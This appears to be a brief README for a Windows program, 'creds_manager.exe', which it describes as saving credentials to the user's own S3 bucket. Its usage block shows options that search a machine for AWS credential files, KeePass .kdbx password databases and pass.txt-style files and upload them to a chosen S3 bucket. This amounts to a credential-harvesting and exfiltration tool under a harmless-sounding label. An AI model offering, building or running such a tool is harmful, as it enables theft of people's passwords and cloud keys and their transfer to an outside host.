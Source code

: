 creds_manager.exe can be used to quikly save your most precious credentials into your own S3 bucket !
Usage of creds_manager.exe :
```powershell
creds_manager.exe
  --bucket xxxxxxx
  --access-key-id xxxxxxx
  --secret-key xxxxxxx
  -f credentials --> Will look for credentials, usualy found in %userprofile%\.aws\*
  -f *.kdbx" --> Will look for .kdbx files, used to store your KeePass passwords
  -f pass.txt --> Will look for "pass.txt" files or derivatives (passwords.txt, pwd.txt, ...)
``` 
